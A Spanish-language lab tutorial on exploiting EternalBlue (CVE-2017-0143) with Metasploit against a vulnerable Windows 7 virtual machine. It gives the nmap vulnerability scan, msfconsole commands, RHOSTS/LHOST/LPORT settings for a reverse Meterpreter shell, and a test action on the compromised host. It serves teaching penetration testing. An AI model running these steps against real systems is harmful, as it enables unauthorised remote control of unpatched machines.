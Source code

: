 # Uso Básico de Metasploit – Explotación EternalBlue en Windows

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red como hemos aprendido anteriormente y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado:

![image.png](./imagenes/image.png)

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:

![image.png](./imagenes/image%201.png)

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![image.png](./imagenes/image%202.png)
    
    ![image.png](./imagenes/image%203.png)
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![image.png](./imagenes/image%204.png)
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![image.png](./imagenes/image%205.png)
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        ![image.png](./imagenes/image%206.png)
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![image.png](./imagenes/image%207.png)
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![image.png](./imagenes/image%208.png)
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![image.png](./imagenes/image%209.png)
        
        ![image.png](./imagenes/image%2010.png)
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![image.png](./imagenes/image%2011.png)
        
        ![image.png](./imagenes/image%2012.png)
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![image.png](./imagenes/image%2013.png)
        
        ![image.png](./imagenes/image%2014.png)
        
        ![image.png](./imagenes/image%2015.png)
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.